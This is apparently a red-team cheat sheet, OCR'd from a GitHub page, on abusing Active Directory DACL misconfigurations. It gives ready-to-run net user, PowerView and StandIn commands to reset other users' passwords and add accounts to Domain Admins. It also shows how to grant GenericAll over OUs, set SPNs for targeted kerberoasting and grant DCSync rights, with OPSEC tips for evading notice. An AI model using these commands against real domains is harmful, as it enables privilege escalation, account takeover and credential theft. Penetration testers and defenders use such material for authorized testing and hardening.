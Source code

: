#### _Exploit DACL misconfigurations:_
>It is required to execute the following commands in the context of the object that has the rights to modify the target object\. 
- GenericAll: full rights which make it possible to add users to groups, reset passwords, add ACE to OU or read/modify protected attributes: 
	- GenericAll on user accounts: 
		- Make user/service accounts kerberoastable \(check ‘GenericWrite’ section below\)\. 
		- Reset password user__ __\(for OPSEC use kerberoasting method instead\): `net user <target user> <new password> (/domain)`
	- GenericAll on computer accounts:
		- set RBCD on computer account \(Check "Resource\-Based Constrained Delegation Abuse" section for exploitation steps\)\.
		- Read LAPS passwords if available
	- GenericAll on groups: Add user to group \([StandIn](https://github.com/FuzzySecurity/StandIn)\): `Standin.exe --group "Domain Admins" --ntaccount "<domain>\<username>" --add (--domain <domain> --user <user> --pass <password>)`
	- GenericAll on Organizational Unit \(OU\): 
		- 1\. List the 'objectguid' for the OU: `Get-DomainOU "<OU name>"`
		- 2\. Change both the ‘PrincipalIdentity’ value to the username who has GenericAll permission and also the GUID of the OU: `$Guids = Get-DomainGUIDMap; $AllObjectPropertyGuid = $Guids.GetEnumerator() | Where-Object {$_.value -eq 'All'} | Select -ExpandProperty name; $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity <username> -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectPropertyGuid; $OU = Get-DomainOU -Raw '<OU GUID>'; $DsEntry = $OU.GetDirectoryEntry(); $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'; $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE); $dsEntry.PsBase.CommitChanges()`
		- 3\. Wait a few minutes and then use any GenericAll exploit technique on any of the descendant objects in the OU\.
- WriteOwner: change the owner of the object and therefore grant yourself the ‘GenericAll’ privilege:
	- 1\. Request the SID of the target object \(StandIn\): `Standin.exe --sid <target object name>($)`
	- 2\. Change the object owner of a target object \(PowerView\): `Set-DomainObjectOwner -Identity <target SID> -OwnerIdentity <new owner name> -verbose`
	- 3\. Give the new object owner GenericAll privileges over that object \(run from the context of the user you want to give this rights to or use PSCredential\) \(PowerView\): `Add-DomainObjectAcl -TargetIdentity <target SID> -PrincipalIdentity <new owner name> -rights All -verbose`
- GenericWrite: privilege to write to non\-protected attributes like 'serviceprincipalnames' or 'msDS\-AllowedToActOnBehalfOfOtherIdentity':
	- GenericWrite over user account:
		- Make target user account kerberoastable:
			- 1\. Set SPN to target account \(PowerView\): `Set-DomainObject -Identity <target account> -SET @{serviceprincipalname='http/<current workstation name>'}`
			- 2\. Perform targeted kerberoasting
			- 3\. Delete set SPN \(PowerView\): `Set-DomainObject -Identity <target account> -Clear ServicePrincipleName`
		- Reset another user’s passwords \(PowerView\): `$newpass = ConvertTo-SecureString '<newsecretpass>' -AsPlainText -Force; Set-DomainUserPassword -Identity <domain>\<target user>' -AccountPassword $newpass`
	- GenericWrite over computer account allows for RBCD abuse: Check "Resource\-Based Constrained Delegation Abuse" section for exploitation steps\.
- WriteDACL:
	- WriteDACL on account object: 
		- 1\. Modify the targets ACL object and give it either GenericAll or DCSync rights \(if you get an "Access is denied" message, most likely the modification was still successful\) \(PowerView\): `Add-ObjectAcl -PrincipalIdentity <account to give DCSync right> -TargetIdentity <FQDN> -Rights <All | DCSync>`
		- 2\. Use the GenericAll or DCSync privilege to compromise the target\. 
	- WriteDACL on group:
		- 1\. Give the principal with the writedacl privilege full control over the target group \(StandIn\): `StandIn.exe --object "distinguishedname=<group distinguished name to give priv for>" --grant "<domain>\<username to grand priv>" --type GenericAll`
		- 2\. Now use the GenericAll privilege to add any user to the target group \(StandIn\): `StandIn.exe --group "<group name>" --ntaccount "<domain>\<username>" --add`
		- 3\. It’s required to get a new TGT or login session for the user that is now added to the group 